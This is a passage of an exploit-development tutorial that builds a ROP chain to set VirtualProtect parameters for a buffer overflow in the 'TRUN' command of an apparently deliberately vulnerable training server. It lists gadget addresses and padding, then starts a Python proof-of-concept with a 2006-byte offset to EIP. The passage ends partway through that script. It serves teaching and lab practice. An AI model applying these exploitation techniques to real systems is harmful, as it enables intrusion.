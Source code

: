 ```
0x77f226d5: inc edx ; ret  ;  ntdll.dll
```

Now, we repeat what we did earlier and create a pointer from the DWORD within EDX (the `size` parameter placeholder) to the value in EAX (the correct `size` parameter value), reusing a previous ROP gadget:

```
0x77e942cb: mov dword [edx], eax ; pop esi ; pop ebp ; retn 0x000C ;  kernel32.dll
```

Again, that pesky `ret 0x000C` is present again. Make sure to keep a note of that. Also note the two `pop` instructions. Add padding to compensate there as well.

Since the process is the exact same, we will go ahead and knock out the `flNewProtect` parameter. Start by "zeroing out" EAX with an already found ROP gadget:

```
0x41ad61cc: xor eax, eax ; ret ; WS2_32.dll
```

Again - we have to add padding for the last gadget's `ret 0x000C` instruction. Three addresses will be removed, so three lines of padding are needed:

```
0x41414141
0x41414141
0x41414141
```

Next we need the value of `0x40` in EAX. I could not find any viable pointers through any of the ROP gadgets I enumerated to add `0x40` directly. So instead, in typical ROP fashion, I had to make-do with what I had.

I added A LOT of `add eax, 0x02` instructions. Here is the ROP gadget used:

```
0x77bd6b18: add eax, 0x02 ; ret  ;  RPCRT4.dll
```

Again, EDX is now pointed to the `size` parameter placeholder. Using EDX again, increment by four - to place the location of the `flNewProtect` placeholder parameter in EDX:

```
0x77f226d5: inc edx ; ret  ;  ntdll.dll
```

Last but not least, create a pointer from the DWORD referenced by EDX (the `flNewProtect` parameter) to EAX (where the value of `flNewPRotect` resides:

```
0x77e942cb: mov dword [edx], eax ; pop esi ; pop ebp ; retn 0x000C ;  kernel32.dll
```

Updated POC:

```python
import struct
import sys
import os


import socket

# Vulnerable command
command = "TRUN ."

# 2006 byte offset to EIP
crash = "\x41" * 2006

# Stack Pivot (returning to the stack without a jmp/call)
crash += struct.pack('<L', 0x62501022)    # ret essfunc.dll

```
